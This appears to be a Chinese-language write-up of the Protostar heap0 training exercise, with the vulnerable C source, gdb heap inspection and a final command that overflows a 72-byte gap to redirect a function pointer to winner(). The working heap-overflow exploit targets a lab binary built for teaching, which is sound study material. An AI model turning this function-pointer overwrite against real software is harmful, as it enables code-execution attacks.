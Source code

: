 # Heap

## Protostar Heap0

### About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();
}
```

就像栈一样，堆内存是连续分配的。这意味着如果我们越过缓冲区写入数据，将覆盖另一个数据结构。定义了两个结构，其中`f->fp`是一个**函数指针**，指向`nowinner`函数，在程序的最下面进行了一次调用。有个`strcpy`函数将传入的字符串写入`d->name`中。

我们在函数返回前下个断点，查看一下`d`和`f`的地址。

```javascript
(gdb) b *0x08048500
Breakpoint 1 at 0x8048500: file heap0/heap0.c, line 40.

(gdb) r AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed

Breakpoint 1, 0x08048500 in main (argc=134513804, argv=0x2) at heap0/heap0.c:40
40    in heap0/heap0.c
```

可以看到`d`和`f`的地址属于堆，然后分别查看内容，**d的内容**就是我们传入的**AAAA**，**f**的内容是**nowinner函数的地址**。

```javascript
(gdb) info proc map
process 1605
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

    Start Addr   End Addr       Size     Offset objfile
     0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
     0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
     0x804a000  0x806b000    0x21000          0           [heap]
    0xb7e96000 0xb7e97000     0x1000          0

(gdb) x/30x 0x804a008
0x804a008:    0x41414141    0x00000000    0x00000000    0x00000000
0x804a018:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a028:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a038:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a048:    0x00000000    0x00000011    0x08048478    0x00000000
0x804a058:    0x00000000    0x00020fa9    0x00000000    0x00000000
0x804a068:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a078:    0x00000000    0x00000000

(gdb) x/10x 0x804a050
0x804a050:    0x08048478    0x00000000    0x00000000    0x00020fa9
0x804a060:    0x00000000    0x00000000    0x00000000    0x00000000
0x804a070:    0x00000000    0x00000000

(gdb) disass nowinner
Dump of assembler code for function nowinner:
0x08048478 <nowinner+0>:    push   ebp
0x08048479 <nowinner+1>:    mov    ebp,esp
0x0804847b <nowinner+3>:    sub    esp,0x18
0x0804847e <nowinner+6>:    mov    DWORD PTR [esp],0x80485dd
0x08048485 <nowinner+13>:    call   0x8048398 <puts@plt>
0x0804848a <nowinner+18>:    leave
0x0804848b <nowinner+19>:    ret
End of assembler dump.

(gdb) p 0x804a050 - 0x804a008
$1 = 72
```

二者地址**相差72个字节**，所以我们通过填充72个字符，后面跟上**winner\(\)的地址**（通过`objdump -t heap0` 查看），就可以将`f->fp`改成指向winner函数，然后进行调用。

```text
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print('A'*72 + '\x64\x84\x04\x08')")
data is at 0x804a008, fp is at 0x804a050
level passed
```

